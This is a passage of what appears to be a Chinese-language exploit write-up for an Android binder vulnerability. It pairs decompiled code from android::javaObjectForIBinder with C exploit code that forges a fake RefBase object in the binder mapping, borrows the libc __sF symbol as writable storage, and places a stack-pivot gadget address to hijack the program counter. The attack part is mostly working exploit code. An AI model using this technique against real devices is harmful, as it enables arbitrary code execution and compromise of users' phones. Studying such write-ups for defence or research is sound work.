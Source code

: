 ```
int __fastcall android::javaObjectForIBinder(int a1, android **myobj)
{

  if ( !*myobj )
    return 0;
  if ( (*(int (__fastcall **)(android *, int *))(*(_DWORD *)*myobj + 32))(*myobj, &amp;dword_153848) )
    return *((_DWORD *)*myobj + 4);
```

这里*myobj的值与伪对象的值匹配，因此我们最终从伪对象中调用函数指针，并将伪对象地址作为第一个参数传递。因此，通过以下代码，我们可以获得代码执行：

```
/*
 * We use the address of the __sF symbol as temporary storage. From the source code,
 * this symbol appears to be unused in the current bionic library.
 */

uint32_t utmp = (uint32_t)dlsym(handle, "__sF");
DO_LOG("[*] Temporary storage: %xn", utmp);

...

DO_LOG("[*] fake_object_addr: %xn", fake_object_addr);

uint64_t offset_ref_base = 0xd0;
fake_object[0] = fake_object_addr + offset_ref_base*sizeof(uint32_t) + 12;

...

/*
 * This is a fake RefBase class, with a pointer to a writable area in libc.
 * We need this because our object is located in the binder mapping and cannot
 * be written to from usermode.
 *
 * The RefBase code will try to increment a refcount before we get control, so
 * pointing it to an empty buffer is fine. The only thing we need to take care of
 * is preventing it from being the special `initial value` of strong ref counts,
 * because in this case the code will also do a virtual functionc all through this
 * fake object.
 */

fake_object[offset_ref_base] = (offset_ref_base + 1)*sizeof(uint32_t); /* This is used as an offset from the base object*/
fake_object[offset_ref_base+1] = 0xdeadbeef;                           /* Unused */
fake_object[offset_ref_base+2] = (uint32_t)utmp;                       /* Writable address in libc */


/* Here comes the PC control. We point it to a stack pivot, and r0
 * points to the beginning of our object (i.e to &amp;fake_object[0]).
 */

fake_object[offset_ref_base +11] = gadgets[STACK_PIVOT].address;
```
